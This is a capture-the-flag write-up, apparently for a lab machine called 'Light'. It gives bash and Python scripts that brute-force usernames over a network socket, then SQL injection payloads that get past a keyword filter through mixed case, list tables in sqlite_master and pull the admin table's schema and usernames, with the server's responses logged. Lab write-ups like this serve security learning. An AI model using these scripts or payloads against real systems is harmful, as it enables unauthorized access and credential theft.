# Light

_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username. Probably a rookie mistake on my part for not realising sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force. The following shows a bunch of input (first line) and output from the application (second line)

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. **Force the statement to resolve to true**

Potentially tricking the database to return all the users

```sql
' OR 1=1 --
```

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

Reponse: _For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)_

This tells us that comment values are banned



**Another attempt:**

```sql
' OR ''='
```

```sql
SELECT * FROM users WHERE name='' OR ''='';
```

This seems to return a password value (that is returned from the _alice_ username).&#x20;



2. UNION and SELECT statement

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

Reponse: _Ahh there is a word in there I don't like :(_



3. _Obfuscation_

```sql
' Union Select * from users '=
' Union Select name from sqlite_master where type = 'table' '=

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters other than: UNION, union
' Union SELECt sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union SELECt username from 'admintable' or '=

```

<pre class="language-sql"><code class="lang-sql">-- 1)
--INPUT: ' OR 1=1 
-- Error: unrecognized token:  "' LIMIT 30" 

--3) 
--INPUT: ' OR 1=1;
--Pause with no response

--2) 
--INPUT: 'UNION 
<strong>--Ahh there is a word in there I don't like :(
</strong>
--3)
--INPUT: 'SELECT
--Ahh there is a word in there I don't like :(

--4)
<strong>--INPUT: '--
</strong>--For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

--5) 
--INPUT: '' LIMIT 30 OR '1=1;
--Error: near "LIMIT": syntax error

</code></pre>



```sql
SELECT * FROM users WHERE name=''--';
```

